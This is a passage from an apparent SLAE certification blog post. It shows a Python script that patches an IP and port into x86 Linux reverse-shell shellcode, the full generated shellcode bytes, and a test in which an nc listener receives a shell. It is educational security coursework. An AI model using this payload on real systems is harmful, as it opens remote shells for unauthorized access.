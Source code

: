 ```python
# Replace XOR key
shellcode = shellcode.replace('\\xff\\xff\\xff\\xff', '\\x{}\\x{}\\x{}\\x{}'.format(xor_bytes[3], xor_bytes[2], xor_bytes[1], xor_bytes[0]))

print('Here\'s the shellcode using IP {ip} and port {port}:'.format(ip = ip, port = port))
print(shellcode)

if '\\x0\\' in shellcode or '\\x00\\' in shellcode:
        print('##################################')
        print('Warning: Null byte in shellcode!')
        print('##################################')
```

To test, the IP address 172.23.10.37 is used with the port 5555:
```
slemire@slae:~/slae32/assignment2$ ./prepare.py 172.23.10.37 5555
Here's the shellcode using IP 172.23.10.37 and port 5555:
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb8\xad\x16\xb\x24\xbb\x1\x1\x1\x1\x31\xd8\x52\x52\x50\x66\x68\x15\xb3\x66\x6a\x02\x89\xe6\x31\xc0\x31\xdb\xb0\x66\xb3\x03\x6a\x10\x56\x57\x89\xe1\xcd\x80\x31\xc9\xb1\x03\x89\xfb\xb0\x3f\x49\xcd\x80\x41\xe2\xf8\x31\xc0\x68\x61\x73\x68\x41\x68\x69\x6e\x2f\x62\x68\x2f\x2f\x2f\x62\x88\x44\x24\x0b\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80
```

Finally, the shellcode is tested:
```
slemire@slae:~/slae32/assignment2$ gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
slemire@slae:~/slae32/assignment2$ ./shellcode
[...]
slemire@slae:~$ nc -lvnp 5555
Listening on [0.0.0.0] (family 0, port 5555)
Connection from [172.23.10.37] port 5555 [tcp/*] accepted (family 2, sport 58584)
whoami
slemire
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1236

All source files can be found on GitHub at [https://github.com/slemire/slae32](https://github.com/slemire/slae32)
